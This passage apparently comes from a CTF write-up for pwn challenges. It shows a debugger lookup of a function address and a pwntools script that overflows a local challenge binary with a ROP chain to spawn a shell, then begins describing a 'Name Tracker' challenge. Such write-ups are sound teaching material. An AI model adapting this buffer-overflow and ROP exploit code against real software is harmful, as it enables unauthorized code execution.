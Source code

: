 After that, I looked up the address of the `custom_feature` function.
```sh
gef➤  info functions custom_feature
All functions matching regular expression "custom_feature":

Non-debugging symbols:
0x0000000000400837  custom_feature
```

Now it's easy to construct a proper ROP chain using the Python code from earlier. Running the code below will give you a shell.
```python
#!/usr/bin/env python3
from pwn import *

p = process("./pwn200")
p.sendline("1")
payload = b"A"*120
payload += p64(0x400be3) # POP RDI
payload += p64(0xdeadbeef)
payload += p64(0x400837) # custom_feature()
p.send(payload)

p.sendline("3")
p.interactive()
```

### Name Tracker
You can download the binary [here](../../../assets/other/2021-1-9-lm-cyber-ctf-writeups-for-pwn-and-web-challenges/pwn300) and the library [here](../../../assets/other/2021-1-9-lm-cyber-ctf-writeups-for-pwn-and-web-challenges/libc-2.31.so). This binary was a little bit tougher than the other two, even though it was worth the same amount of points. The program maintains an array of strings, and it allows you to input values into this array. The user can specify the index in the array where he/she wants to save the string.
```sh
$ ./pwn300
[1] add name
[2] print name
[3] exit
1
index: 0
pls give the name:
AAAAAAAAAAAAAAAAAAAAAA
[1] add name
[2] print name
[3] exit
2
index: 0
AAAAAAAAAAAAAAAAAAAAAA

[1] add name
[2] print name
[3] exit
3
```
